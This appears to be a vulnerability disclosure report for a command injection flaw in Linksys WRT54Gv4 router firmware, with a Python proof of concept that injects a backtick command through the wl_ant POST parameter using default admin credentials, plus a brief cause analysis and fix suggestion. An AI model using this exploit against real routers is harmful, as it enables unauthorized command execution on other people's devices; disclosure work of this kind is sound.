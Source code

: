 # CVE Report - Command Injection Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Routers 

## Vulnerability Title

Command Injection Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Router. 

## Vulnerability Description

Linksys FW_WRT54Gv4 devices have an OS command injection vulnerability in the CGl interface "apply.cgi",which allows remote attackers to execute arbitrary commands via parameter **wl_ant**  passed to the "apply.cgi" binary through a POST request.



## POC

```python
import requests

url = "http://{ip}/apply.cgi"

headers = {
    "Host": ip,
    "Content-Length": "146",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "Origin": f"http://{ip}",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "StartEPI": "1",
    "wl_ant": "`touch 1.txt`",
}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Content:", response.text)

```



## Cause Analysis

The get_cgi function accepts external data. The user affects v5 by setting the wl_ant value. It enters system execution, resulting in a command execution vulnerability.

![image](https://github.com/user-attachments/assets/702617ff-8bec-4eb0-b580-4d4b2ebde5d8)

![image](https://github.com/user-attachments/assets/21ca4de6-052a-4d58-ab08-c2b984e23fd8)

## Suggested Fix

It is recommended to update to the version FW_WRT54Gv4_4.21.5 of router to fix this vulnerability. 

